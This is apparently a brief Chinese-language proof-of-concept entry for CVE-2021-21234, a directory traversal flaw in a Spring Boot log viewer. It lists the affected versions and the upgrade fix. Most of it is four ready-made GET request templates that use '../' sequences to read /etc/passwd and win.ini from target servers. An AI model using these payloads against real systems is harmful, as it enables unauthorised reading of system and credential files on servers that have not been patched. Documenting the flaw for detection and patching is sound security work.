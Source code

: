 # Springboot

---
- 漏洞编号：CVE-2021-21234
- 时间：2021.10.19
- 类别：目录遍历
- 漏洞影响范围：版本<0.2.13
- 修复方案：升级到0.2.13
- 特征：图标为背景为绿云的白桃

```
GET path:
	  - "{{BaseURL}}/manage/log/view?filename=/windows/win.ini&base=../../../../../../../../../../" # Windows
      - "{{BaseURL}}/log/view?filename=/windows/win.ini&base=../../../../../../../../../../" # windows
      - "{{BaseURL}}/manage/log/view?filename=/etc/passwd&base=../../../../../../../../../../" # linux
      - "{{BaseURL}}/log/view?filename=/etc/passwd&base=../../../../../../../../../../" # linux
```


